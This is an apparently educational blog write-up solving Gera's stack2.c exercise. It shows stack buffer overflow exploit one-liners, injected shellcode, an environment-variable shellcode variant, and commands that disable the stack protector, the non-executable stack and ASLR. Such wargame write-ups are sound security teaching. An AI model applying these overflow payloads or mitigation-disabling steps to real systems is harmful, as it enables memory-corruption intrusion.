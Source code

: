 Gera's Warming Up on Stack #2 - Solutions
==========================================
date: 02/Jan/2013
summary: Solutions for Gera's Warming up on Stack #2 program.
tags: exploit, mitigations, buffer overflow, writeups

Following is the part 2 in the series of posts I started back in August 2012 with an aim to provide an analysis and possible solutions for the vulnerable programs provided by [Gera](http://corelabs.coresecurity.com/index.php?module=Wiki&action=view&type=researcher&name=Gerardo_Richarte) at his [Insecure Programming](http://community.corest.com/%7Egera/InsecureProgramming/) by example page.

This post follows the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post and if you have not read it, I request you to please do so. Most of the concepts are very similar and since they have been already talked about, I'll not be reiterating them here.

Let's get started. Below is the source for the vulnerable [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) program:

```c
/* stack2.c                                     *
 * specially crafted to feed your brain by gera */

int main() {
    int cookie;
    char buf[80];

    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
    gets(buf);

    if (cookie == 0x01020305)
        printf("you win!\n");
}
```

Like its counterpart [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html), the above program too accepts user-input through the `gets` function and then looks for a specific value in a local variable named `cookie`. If this value is equal to a certain pre-defined constant, `printf` function is used to show a `you win!` message to the user. There is no direct means of modifying the content of the `cookie` variable. The `gets` function will keep reading from the stdin device until it encounters a newline or EoF character. Since this reading loop fails to honor the size of the destination buffer, a classic buffer overflow vulnerability is introduced in the program. Our aim is to leverage this vulnerability and exploit this program so that it prints the `you win!` message to stdout.

Here are a few observations that could be made by looking at the source of the program:

1.  Since it is defined prior to `buf`, the `cookie` would be placed at
    a higher memory address on the program stack, just below the saved
    registers from the function prologue
2.  The `buf` character array would be at an offset of at least 80B from
    `cookie`
3.  The `gets` call would accept unbounded user-input within `buf` array
    and hence it provides a mechanism to alter the call stack contents

Stack layout for [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) is identical to [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) as already outlined in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post.

Here are solutions I could think of to get the `you win!` message printed:

-   Solution #1: Overflow the internal `buf` array to overwrite
    `cookie` with 0x01020305
-   Solution #2: Overflow the internal `buf` array to overwrite EIP
    with the address of `printf(you win!)`
-   Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode and
    overwrite EIP with its address
-   Solution #4: Inject a NOP-prefixed `printf(you win!)` shellcode
    through an environment var and overwrite EIP with its address

Here's a brief description of the test system:

```console
# cat /etc/lsb-release | grep DESC ; uname -a | cut -d' ' -f1,3,12-13 ; gcc --version | grep gcc ; cat /proc/cpuinfo | grep -E '(vendor|model|flags)'
DISTRIB_DESCRIPTION=*Ubuntu 10.04.2 LTS*
Linux 2.6.38 i686 GNU/Linux
gcc (Ubuntu 4.4.3-4ubuntu5) 4.4.3
vendor_id   : GenuineIntel
model       : 37
model name  : Intel(R) Core(TM) i3 CPU       M 350  @ 2.27GHz
flags       : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx lm constant_tsc up pni monitor ssse3 lahf_l
```

Solution #1: Overflow the internal buf array to overwrite cookie with 0x01020305
---------------------------------------------------------------------------------

Here's the GCC commandline to prepare [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) for this solution:

```console
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -o stack2 stack2.c
stack2.c: In function ‘main’:
stack2.c:8: warning: incompatible implicit declaration of built-in function ‘printf’
stack2.c:8: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 2 has type ‘char (*)[80]’
stack2.c:8: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 3 has type ‘int *’
/tmp/ccoBRXbD.o: In function `main':
stack2.c:(.text+0x27): warning: the `gets' function is dangerous and should not be used.
```

All done, let's exploit [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html):

```console
# perl -e 'print "A"x80 . "\x05\x03\x02\x01"' | ./stack2
buf: bffff4c4 cookie: bffff514
you win!
```

Solution #2: Overflow the internal buf array to overwrite EIP with the address of printf(you win!)
---------------------------------------------------------------------------------------------------

We need to have a look at the assembly of [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) and find out the location of the `printf` function which displays the `you win!` message:

```c-objdump
# objdump -d -M intel stack2 | grep -A20 main.:
08048444 <main>:
 8048444:   55                      push   ebp
 8048445:   89 e5                   mov    ebp,esp
 8048447:   83 ec 60                sub    esp,0x60
 804844a:   8d 45 fc                lea    eax,[ebp-0x4]
 804844d:   89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 8048451:   8d 45 ac                lea    eax,[ebp-0x54]
 8048454:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048458:   c7 04 24 50 85 04 08    mov    DWORD PTR [esp],0x8048550
 804845f:   e8 0c ff ff ff          call   8048370 &lt;printf@plt&gt;
 8048464:   8d 45 ac                lea    eax,[ebp-0x54]
 8048467:   89 04 24                mov    DWORD PTR [esp],eax
 804846a:   e8 e1 fe ff ff          call   8048350 &lt;gets@plt&gt;
 804846f:   8b 45 fc                mov    eax,DWORD PTR [ebp-0x4]
 8048472:   3d 05 03 02 01          cmp    eax,0x1020305
 8048477:   75 0c                   jne    8048485 &lt;main+0x41&gt;
 8048479:   c7 04 24 68 85 04 08    mov    DWORD PTR [esp],0x8048568
 8048480:   e8 fb fe ff ff          call   8048380 &lt;puts@plt&gt;
 8048485:   c9                      leave
 8048486:   c3                      ret
 8048487:   90                      nop
```

The address turns out to be 0x8048479. Let's try exploiting:

```console
# perl -e 'print "A"x88 . "\x79\x84\x04\x08"' | ./stack2
buf: bffff4c4 cookie: bffff514
you win!
Segmentation fault
```

Solution #3: Inject a NOP-prefixed printf(you win!) shellcode and overwrite EIP with its address
-------------------------------------------------------------------------------------------------

Let's first recompile [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) and request GCC to mark program stack as executable. Additionally, we also need to turn ASLR off so that we can have a static return address to overwrite EIP with:

```console
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o stack2 stack2.c 2>/dev/null ; readelf -l stack2 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
#
# echo 0 >/proc/sys/kernel/randomize_va_space ; cat /proc/sys/kernel/randomize_va_space
0
```

Now lets go ahead with exploitation. The Null-free, NOP-prefixed `printf(you win!)` shellcode we used to exploit [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post could be reused here:

```console
# ./stack2
buf: bffff4c4 cookie: bffff514
#
# ./stack2
buf: bffff4c4 cookie: bffff514
#
# perl -e 'print "\x90"x51 . "\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21" . "\xc4\xf4\xff\xbf"' | ./stack2
buf: bffff4c4 cookie: bffff514
you win!#
```

Solution #4: Inject a NOP-prefixed printf(you win!) shellcode through an environment var and overwrite EIP with its address
----------------------------------------------------------------------------------------------------------------------------

Lets get straight to exploitation:

```console
# echo $WINCODE | hexdump -C
00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 20 cd  |..1.1.1.....Y. .|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 20 0d 0a                           | win! ..|
00000028
#
# ./getenvaddr WINCODE ./stack2
[+] WINCODE: 0xbffff726
#
# perl -e 'print "\x90"x88 . "\x26\xf7\xff\xbf"' | ./stack2
buf: bffff4c4 cookie: bffff514
you win!
```

So, we have now successfully exploited the [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) program through four different techniques. Depending on the motive of your exploitation attempt, other techniques could be devised and some, mentioned here, be rejected.

Like I said, earlier, these solutions are not practical anymore. They just serve the purpose of understanding how exploits used to work before mitigation features were introduced in modern systems. But, as with everything else, understanding basics is really important. As mitigation features mature, exploitation techniques become increasingly complex. And to understand those, we need to build upon the solid foundation of basic concepts, like those discussed on this and other blogs.
